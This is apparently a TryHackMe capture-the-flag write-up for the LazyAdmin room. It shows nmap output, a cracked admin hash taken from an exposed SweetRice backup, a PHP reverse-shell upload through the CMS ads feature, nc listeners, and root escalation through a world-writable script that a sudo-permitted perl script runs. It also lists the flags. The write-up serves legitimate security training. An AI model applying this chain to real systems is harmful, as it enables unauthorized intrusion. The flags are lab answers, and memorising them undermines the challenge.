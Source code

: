 # LazyAdmin

Easy linux machine to practice your skills

Room URL: https://tryhackme.com/room/lazyadmin

---

# Task 1

No info given. Guess we should just start with a portscan. Just two open ports..

```bash
$ nmap -sC -sV 10.10.6.232
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-01 19:46 CEST
Nmap scan report for 10.10.6.232
Host is up (0.082s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 49:7c:f7:41:10:43:73:da:2c:e6:38:95:86:f8:e0:f0 (RSA)
|   256 2f:d7:c4:4c:e8:1b:5a:90:44:df:c0:63:8c:72:ae:55 (ECDSA)
|_  256 61:84:62:27:c6:c3:29:17:dd:27:45:9e:29:cb:90:5e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Let's give gobuster a run for his money. So there's a SweetRice CMS at
`/content` which has an admin panel at `/content/as`. Seems with some googling
we're able to find a [database
dump](http://10.10.6.232/content/inc/mysql_backup/) containing a password hash:
`42f749ade7f9e195bf475f37a44cafcb` and thanks to
[hashes.com](https://hashes.com/en/decrypt/hash) I found the corresponding
password: `Password123`

After some googling I found it's possible to use the "ads" section to upload my [php reverse
shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)
and use the direct link to said ad to get a reverse shell, which works :)

```bash
$ nc -lnvp 9999
Connection from 10.10.6.232:38210
Linux THM-Chal 4.15.0-70-generic #79~16.04.1-Ubuntu SMP Tue Nov 12 11:54:29 UTC 2019 i686 i686 i686 GNU/Linux
 21:04:58 up 20 min,  0 users,  load average: 0.00, 0.13, 0.41
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$
```

1. What is the user flag?

Seems there's a flag in the homedir of `itguy`: `/home/itguy/user.txt`

```
THM{63e5bce9271952aad1113b6f1ac28a07}
```

2. What is the root flag?

`sudo -l` shows we can run a very specific backup script:

```
User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
```

The contents of this file runs a shell command `/etc/copy.sh` which is is
world-writeable. Good news! So we could just open another nc listener on our own
machine and insert a reverse shell into that file and then run the sudo command
which pops us into root.

```
$ nc -lnvp 8888
Connection from 10.10.6.232:59994
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# ls /root
root.txt
# cat /root/root.txt
THM{6637f41d0177b6f37cb20d775124699f}
```

```
THM{6637f41d0177b6f37cb20d775124699f}
```
